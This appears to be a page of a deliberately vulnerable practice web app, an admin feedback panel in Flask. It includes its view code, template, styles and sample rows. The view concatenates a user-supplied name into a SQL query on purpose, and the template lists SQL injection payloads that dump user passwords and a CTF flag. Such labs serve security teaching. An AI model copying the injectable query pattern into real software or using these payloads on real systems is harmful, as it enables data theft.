
Page /admin/feedback on the committed database.
### tables this page shows
CREATE TABLE feedback (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    name TEXT NOT NULL,
    email TEXT,
    message TEXT NOT NULL,
    is_approved INTEGER DEFAULT 0,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

### app.py (the view)
@app.route('/admin/feedback')
def admin_feedback():
    db = get_db()
    results = []
    executed_query = None
    error = None
    name_filter = request.args.get('name', '')
    if name_filter:
        query = "SELECT * FROM feedback WHERE name = '" + name_filter + "'"
    else:
        query = "SELECT * FROM feedback WHERE is_approved = 1"
    executed_query = query
    try:
        results = db.execute(query).fetchall()
    except sqlite3.Error as e:
        error = str(e)
    return render_template('admin_feedback.html',
                         results=results,
                         name_filter=name_filter,
                         executed_query=executed_query,
                         error=error)

### app.py (called while the page is built)
def get_db():
    if 'db' not in g:
        g.db = sqlite3.connect(DATABASE)
        g.db.row_factory = sqlite3.Row
    return g.db

### templates/admin_feedback.html (shortened to what this page needs)
{% extends "base.html" %}
{% block content %}
<div class="card">
    <div class="card-header">
        <span class="card-title">🛡️ Admin Feedback Panel</span>
        <span class="badge badge-danger">Vulnerable: Second-Order SQLi (Execution)</span>
    </div>
    <p style="color: var(--text-muted); font-size: 14px; margin-bottom: 20px;">
        This is the <strong>execution phase</strong> of Second-Order SQL Injection.
        The <code>name</code> filter parameter is directly concatenated into a SELECT query.
        Any malicious payload stored via <code>/feedback</code> will execute here.
    </p>
    <form method="GET" action="{{ url_for('admin_feedback') }}">
        <div style="display: flex; gap: 12px;">
            <input type="text" name="name" value="{{ name_filter }}" placeholder="Filter by name..." style="flex: 1;">
            <button type="submit" class="btn btn-primary">Filter</button>
            <a href="{{ url_for('admin_feedback') }}" class="btn btn-outline">Show Approved</a>
        </div>
    </form>
    {% if executed_query %}
    <div class="query-box">
        <span class="label">Executed SQL Query</span>
        <code>{{ executed_query }}</code>
    </div>
    {% endif %}
</div>
{% if results %}
<div class="card">
    <div class="card-header">
        <span class="card-title">Feedback Entries ({{ results|length }} found)</span>
    </div>
    <table class="data-table">
        <thead>
            <tr><th>ID</th><th>Name</th><th>Email</th><th>Message</th><th>Approved</th><th>Date</th></tr>
        </thead>
        <tbody>
            {% for row in results %}
            <tr>
                <td>{{ row.id }}</td>
                <td><code>{{ row.name }}</code></td>
                <td>{{ row.email }}</td>
                <td>{{ row.message }}</td>
                <td>
                    {% if row.is_approved %}
                        <span class="badge badge-success">Yes</span>
                    {% else %}
                        <span class="badge badge-warning">No</span>
                    {% endif %}
                </td>
                <td>{{ row.created_at }}</td>
            </tr>
            {% endfor %}
        </tbody>
    </table>
</div>
{% elif name_filter %}
    <div class="alert alert-info">No feedback found for name: <code>{{ name_filter }}</code></div>
{% endif %}
<div class="card" style="border-color: var(--warning); margin-top: 20px;">
    <div class="card-header">
        <span class="card-title" style="color: var(--warning);">⚡ Try These in the Name Filter</span>
    </div>
    <div class="payload">
        <div class="payload-label">See ALL feedback including unapproved (stored via /feedback)</div>
        ' OR '1'='1' --
    </div>
    <div class="payload">
        <div class="payload-label">Inject users table into results</div>
        ' UNION SELECT id, username, password, email, role FROM users --
    </div>
    <div class="payload">
        <div class="payload-label">Get the CTF flag</div>
        ' UNION SELECT id, secret_key, secret_value, description, 'flag' FROM secrets WHERE secret_key='FLAG' --
    </div>
</div>
{% endblock %}

### templates/base.html (style rules this page uses)
:root { --bg: #0d1117; --bg-secondary: #161b22; --border: #30363d; --text: #c9d1d9; --text-muted: #8b949e; --accent: #58a6ff; --accent-hover: #79b8ff; --danger: #f85149; --warning: #f0883e; --success: #3fb950; --info: #58a6ff; }
* { margin: 0; padding: 0; box-sizing: border-box; }
body { font-family: 'Segoe UI', system-ui, -apple-system, sans-serif; background: var(--bg); color: var(--text); line-height: 1.6; min-height: 100vh; }
.card { background: var(--bg-secondary); border: 1px solid var(--border); border-radius: 12px; padding: 24px; margin-bottom: 20px; }
.card-header { display: flex; align-items: center; justify-content: space-between; margin-bottom: 16px; }
.card-title { font-size: 18px; font-weight: 600; color: var(--text); }
.badge { display: inline-flex; align-items: center; padding: 4px 10px; border-radius: 20px; font-size: 11px; font-weight: 600; text-transform: uppercase; letter-spacing: 0.5px; }
.badge-danger { background: rgba(248, 81, 73, 0.15); color: var(--danger); border: 1px solid rgba(248, 81, 73, 0.3); }
.badge-success { background: rgba(63, 185, 80, 0.15); color: var(--success); border: 1px solid rgba(63, 185, 80, 0.3); }
input[type="text"], input[type="password"], input[type="email"], textarea { width: 100%; padding: 10px 14px; background: var(--bg); border: 1px solid var(--border); border-radius: 8px; color: var(--text); font-size: 14px; }
.btn { display: inline-flex; align-items: center; justify-content: center; gap: 8px; padding: 10px 20px; border: none; border-radius: 8px; font-size: 14px; font-weight: 600; cursor: pointer; transition: all 0.2s; text-decoration: none; }
.btn-primary { background: var(--accent); color: white; }
.btn-outline { background: transparent; border: 1px solid var(--border); color: var(--text); }
.query-box { background: #0d1117; border: 1px solid var(--border); border-radius: 8px; padding: 16px; margin: 16px 0; font-family: 'Consolas', 'Monaco', monospace; font-size: 13px; overflow-x: auto; }
.query-box .label { color: var(--text-muted); font-size: 11px; text-transform: uppercase; letter-spacing: 1px; margin-bottom: 8px; display: block; }
.query-box code { color: #a5d6ff; }
.data-table { width: 100%; border-collapse: collapse; margin-top: 16px; }
.data-table th, .data-table td { padding: 12px; text-align: left; border-bottom: 1px solid var(--border); font-size: 13px; }
.data-table th { color: var(--text-muted); font-weight: 600; text-transform: uppercase; font-size: 11px; letter-spacing: 0.5px; }
.payload { background: #1a1f2e; border-left: 3px solid var(--warning); padding: 12px 16px; margin: 8px 0; border-radius: 0 8px 8px 0; font-family: 'Consolas', 'Monaco', monospace; font-size: 12px; color: #e6edf3; cursor: pointer; transition: background 0.2s; }
.payload-label { font-size: 11px; color: var(--warning); margin-bottom: 4px; font-weight: 600; }
code { font-family: 'Consolas', 'Monaco', 'Courier New', monospace; color: #a5d6ff; }

### rows in the picture
feedback: id "1", name "John Doe", email "john@example.com", message "Great products! Fast shipping.", is_approved "YES", created_at "2026-05-20 18:46:39"
feedback: id "2", name "Jane Smith", email "jane@example.com", message "The laptop is amazing, highly recommend.", is_approved "YES", created_at "2026-05-20 18:46:39"
feedback: id "3", name "Mike Johnson", email "mike@example.com", message "Customer service was helpful.", is_approved "YES", created_at "2026-05-20 18:46:39"

### other values in the picture
{{ executed_query }} "SELECT * FROM feedback WHERE is_approved = 1"
{{ results|length }} "3"
